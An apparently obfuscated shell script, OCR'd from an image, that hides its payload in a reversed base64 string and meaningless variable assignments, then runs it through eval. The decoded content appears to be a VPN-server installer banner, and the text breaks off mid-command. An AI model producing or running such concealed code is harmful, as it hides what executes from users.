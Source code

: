 0NXZSBioAKuCKU2YpZnclNFIMxUQgEGdhREIwV3ajFmQgIKgirgCPdEIOFkSPJFVgIKgirgCEJVQ gMyIjogClRXYkBXVg8Gd1FEIiCo4KoAepZEIvRXdBBioAKuCKU2YpZnclNFIMxUQgEGdhREIlJ3b 0AjLwIDImACNw4COxASd05WdiVFIiCo4KoQOgYCIwEDIuFWaiVGRgIKgirgCkVGdy9GcwV3UgM3T QBCbsFEI6ACIgACIgACIgACIgACIgACIgAyUOR0dvx2UgIKgirgC0J3bQBiJgU2YpZnclNFIjogC yREIiCo4KowM1IjMgwiMyAiOgACIgACIgACIgACIgACIgACIgg0UT5WZw9EIiCo4KoASTNFI0J3b l5mb1R3UgIKgirgCzUTMxACLzQTMgwSOwEDIsMDN0AiOgACIgACIgACIgACIgACIgACIyFWZiB3b gACIgACIgACIOBlVuVGcPBioAKuCKczN3ACL1QDNgwyM0QDI6ACIgACIgACIgACIgACIgACIgUDb TNFI0V2aj92ciV2VgIKgirgCwkTOgw0UTBCLwAjMyACUEVFIsQTOxEDIQNEVgoDIgACIgACIgACI wgDO4AiOgACIgACIgACUURFSgg0UTBCdlt2YvNnYldFIiCo4KowM0QDI6ACIgACIgACIgMFTUBCS gASe49mcQBCZpVXcTBioAKuCKYDOwIDI6ACIgACIgACIg4EUW5WZw9EI0V2aj92ciV2VgIKgirgC gACIgACIgACIgACIgAibwZHZhJEIiCo4KoQXGZ0TbBCM4ADOgwCOyEzMgoDIgACIgACIgACIgACI 6ACIgACIgACIgACIgACIgACIgACIggnbpdmTgIKgirgCwAzM3ACLwAjM3ACLwATM3AiOgACIgACI DV0UQl0LQRlMMBioAKuCKAzNwcDI6ACIgACIgACIgACIgACIgACIkJXY1dWZyl2VgIKgirgC5gDI xAiOgACIgACIgACIgACIgACIgACIOBlVgAFVQBFIiCo4KoQMwcTMgoDIgACIgACIgACIgAiTQZFI zt2YvN3dvRWYoNFIiCo4KoAN0QDI6ACIgACIgACIgACIgACIgACIg4EUWBCUUN1UgIKgirgCyMzN gACIgACIgACIgACIgAyUMRFITZkQP1yUTBioAKuCKMDN1ETLzQDNxAiOgACIgACIgACIgACIgIVL KowM0UzMtMDN0MDI6ACIgACIgACIgACIgACIQRFVIByUGJ0TtM1UgIKgirgCzQTNy0yM0QjMgoDI u9mTgM3cl1mVgMVWBJFWgIKgirgCzQDN4AiOgACIgACIgACIgAyUMRFIzNXZtZFITlVQShFIiCo4 AKuCKMDN0gDI6ACIgACIgACIgACITxEVgM3clxmVgMVWBJFWgIKgirgCwgDI6ACIgACIgMFTUBSZ gACIgACIg4WYq9mcUByUZFkUYBioAKuCKADOgoDIgACIgAyUMRFIl52bOByczVGbWByUZFkUYBio KADOzMDLwgTMxAiOgACIgACITxEVgMEUSdEIzNXZtZFITlVQShFIiCo4KowM4AjMgoDIgACIgACI gACSTNFIQh0TgIKgirgCwgDN0wCM4IjMgoDIgACIgAyUMRFIDBlUHByczVGbWByUZFkUYBioAKuC goDIgACIgACIgACIgACIgIXYlJGcvJHRgAFSPBioAKuCKEDOxgDI6ACIgACIgACIgACIgACIgACI vdEIuFmavJHVgIKgirgCzgzM4AiOgACIgACIgACIgACIgACIOBlVuVGcPBCUI9EIiCo4KogM4IDO goDI0V2aj92ciV2VgIXZ29EI052byZEZ19GbDBioAKuCKcDOwIDI6ACIgACIgACIgACIgACIgACI tlGVgIKgirgCzVmc1RXYlZEIyVGa09EImAibvlGdh1mcvZmbJBiclZnclNFIjMyIgogCK0lRG90W hJkMslWYGBioAKuCKkyNrACVNdEKgEGdyF2ahp0Lhl2cBBiOgACIgACIgACIgACIgACIgUmbvpXZ PtFI6ACIgACIgACIgACIgACIgACIgUGdhxmZEBioAKuCK0lTPtFI6ACIgACIgACIgACIgACIgAib gACdv9mYlJVLvRXdBBioAKuCK0lTPtFI6ACIgACIgACIgACIgACIgAyclxmYhRHUJBioAKuCK0lT irgCdZkRPtFI6ACIgACIgACIgACIgACIgACIgACI2YHUJBioAKuCK0lTPtFI6ACIgACIgACIgACI NdEIwAjLwADIu9EI092biVmcvRXdBBioAKuCKczKgQVTHBCMw4SNwAibPBCdv9mYlJ3b0VXQgIKg xAibPBCdv9mYlJ3b0VXQgIKgirgC3sCIU10RgADMuITMg42TgQ3bvJWZy9Gd1FEIiCo4KowNrACV y9EIsxWdGBioAKuCKQnb192YjFEIkVmcpBHeFBSZ0VGblREIvRXdBBioAKuCKczKgQVTHBCMw4CO KgXaGByb0VXQgIKgirgCsVmYhxEIlRXaodFIiCo4KowclNWa2JXZTByc19WayFmVgI3bGBycyVGZ i0zYyNHIxITP0h2ZpVGagcWbpxjC+IiclRnblNmI942ZpxWYgAHPKoQZ0FGZwVFIvRXdBBioAKuC K4DcvwjC+ISayNXd5lGbpJWYzlmZ9UWbh5mclNXd/8yY2BHan9SbvNmL2Vmch12br9yL6MHc0RHa gEGPK4jcixDI6UWbgQ3YhRnbvNkPygGPK4jIyVGduV2Yi0jbnlGbhByJ1QzJ9QHanlWZoBidpRGP 6MHc0RHai0zYyNHIn1Wa8AiPikmczVXepxWaiF2cpZ2Lt92YuIWdoRXan9yL6MHc0RHai0jZlJHa 2NnLiVHa0l2ZvMnbvNWavEjLw4yMANnbvNWatUGbw1Waz9Sbw52L0VmbuIndpxWZkNnau4GZj9yL n5WYslGZv02bj5yav9mYlNWYm9yL6MHc0RHai0jZlJHagEGPK4TYvwDI+cCM1cSP0h2ZpVGagIyZ w1Waz9Sbw52L0VmbuIndpxWZkNnau4GZj9yL6MHc0RHai0zYyNHIn1Wa8AiPiwGeuUncpJ2Z5RXa oBSY8ogPh9CPg4zJwUzJ9QHanlWZoBiInZ3cus2bvJWZjFmZvMnbvNWavEjLw4yMANnbvNWatUGb zBHd0hmI9MmczByZtlGPg4jIwlGdvwWLuFWbpFGb1N3LklmLyVWZ0tWYyR3LvozcwRHdoJSPmVmc n0DdodWalhGIicmbw5iNtQWZy1ib0Jmc09CZlJWbl9ycldWYtl2LklmLyVWZ0tWYyRnLuR2Yv8iO 1ETP0h2ZpVGagcWbpxjC+IiclRnblNmI942ZpxWYgIDa8ogP2lGZvwjC+IDavwjC+E2L8AiPnATN uFGbtA3b09SawF2LwBXYuwWZjJXZ25yc0FGdz1SZtRWYlJXLiVHa0l2Zv8iOzBHd0hmI9MmczBCM pxjC+IyayFGZ9UWblhGdmQ3YhBXbvNWP0V3b5FGbmkmczVXepxWaiF2cpZWPl1WYuJXZzV3PvM3Z wBXYuwWZjJXZ25yc0FGdz1SZtRWYlJXLiVHa0l2Zv8iOzBHd0hmI9MmczBCM1ETP0h2ZpVGagcWb z52bjl2X39GazZSZ1JHd9UGdhZXayB3X05WdvNmJpJ3c1lXaslmYhNXam1TZtFmbyV2c19TawF2L K4jIyVGduV2Yi0jbnlGbhBiMoxjC+IyayFGZ9UWblhGdmUWdyRXP";Mll="ch";HTv=Yyu;cbY=cId;FwM=nUK;Neo=URi;Jrd=ZsO;ZzZ=gsI;AGg=Krt;KoC=Usx;ftb=Vzm;kuT=EVS;AUX=NGv;Aow=suL;uBc=hlq;OqT=ApZ;kSe=ZTL;aFt=FKz;yqF=lEj;ZII=uml;BwC=JPx;gWH=eyv;wWA=hWw;unn=Brn;hxs=DiR;nPo=iOr;Uuo=lUG;zxW=Nkd;MAi=aWZ;XcA=xIq;sZL=MLV;rwV=lNF;GYU=UPS;WeS=kTk;Aym=btt;rGW=IDI;Uhx=DhE;Kut=fsH;eGn=UyX;VNh=YtK;QWo=gEO;Byf=nvi;Ezb=oBV;uWP=JEl;Vsp=Lgc;EAF=Byk;PSz=HCg;pyP=bQL;Uxq=ehM;WdA=Uij;pWM=bsv;oXm=BKe;mtM=qkr;XEB=pua;XzD=SPa;Kng=JSY;bFL=Zud;xbc=GSY;neu=TQJ;Ttj=EdI;ZCG=HXS;NSP=aRL;UPz=CwR;edR=xrL;jQC=PQv;ESa=fXd;eKc=KZo;WEy=DoO;fQg=tcd;FCk=GMk;YgE=Nzd;FAs=AFH;gRJ=wZL;ffM=Jsb;Ixf=RQY;Gmk=ugg;GRa=CTs;UiO=Yer;etb=mgM;fex=MqF;Nll=vPC;KWd=yXb;Muu=Mzy;wHZ=jjp;SmF=EZc;ZqQ=lNR;CuE=Afy;weE=KKV;ggU=fdX;wbE=YVE;TEj=yAz;and=qKr;MVm=jME;jUo=PRn;lUm=BLo;IUT=oDE;BDY=lkB;oQp=FKc;YEa=bpY;qOb=Izx;MfR=ODo;JmY=Kia;weH=FVf;URv=vSO;Jdp=BJH;opM=fhP;NUx=Qpe;iDY=ZNQ;lAj=vuK;imh=QaU;Cdp=mgw;wAJ=IMc;ANx=UQv;CkG=nsS;tuB=Lfj;KFb=ACa;Znn=SPN;Izy=AKY;MCI=uEV;Vas=kJi;OVF=xhN;ocJ=mis;CCq=zoG;Uun=Bsu;Vet=cPB;PMj=gXU;Svx=qVt;ado=LSJ;zGv=aIv;jyW=gEB;KLw=yan;nqU=foW;mPS=Zhi;oRH=HzR;aTq=iAA;LFG=yTk;LhE=dvZ;Gmd=aBt;lDM=FUf;KkS=LUv;ODo=ifH;LIW=oRx;kbu=cPC;WgK=RfX;NoQ=OpS;VWA=MwS;bPe=cOh;drL=JXi;tuj=aeR;nlI=RgR;qog=uHu;zLA=FCa;INo=pXp;PaQ=yJV;kPu=dmu;EgN=Wek;MXp=PIc;YEF=xAk;Zvz=EGN;Feh=yij;sv=TmN;Gc=WAR;kw=XRs;dT=fhJ;ed=WAu;rq=OFi;ak=auS;zU=gWJ;QB=PyR;Ci=HYT;DR=HGU;nEl=izK;Yon=JKg;aRR=osG;BLG=nGa;fad=iUJ;FeM=Oph;NIf=nUq;AdK=IHM;pMr=KRX;GJr=sor;Yzr=JJM;zCc=jhW;iac=Znx;lPF=qCm;GHi="o";Re="-";LcV=" ";H2o="t";O2h="r";r="ev";Gi="ba";x="s";sfT="d";x64="4";CTh=Vu;sh=dMK;Pl=GnF;MQ=HQe;dG=hZi;Tv=TuJ;BP=PPf;nh=Edv;pY=vGA;io=bPH;Rr=tdy;MF=jZJ;my=zmB;Yd=mtW;XA=kqf;VR=qss;BP=enZ;re=dnQ;os=Xua;kA=hzB;aE=JKy;vG=pcw;SO=gBc;FO=XMq;kK=ZHi;DwX=sS;mNb=im;nv=Cn;yNI=Hb;Yt=FQ;Pl=PU;ko=DJA;UX=tv;XD=UYM;uz=hIa;YVD=cJM;Zde=fi;IF=hLs;JCM=Dg;Fdw=JL;ieQ=FAu;ZMh=TQB;qHK=EM;wVK=bxY;nMR=mC;UL=Lep;wJ=eM;yc=dch;rIX=Vb;bBO=eT;Zpx=Iz;ang=Ln;AYe=Qy;UiQ=IU;usu=Xy;rkj=Ce;eVp=OY;aFw=wR;uNw=cJ;DQb=Tn;ZLx=ec;ipH=hk;pcK=rd;lCz=Ce;jxG=nx;Gkd=Pl;yFz=zk;vow=Qm;QBs=gz;dXe=sQ;dJU=vr;urX=mj;IF=qGI;UoJ=hD;x=$(eval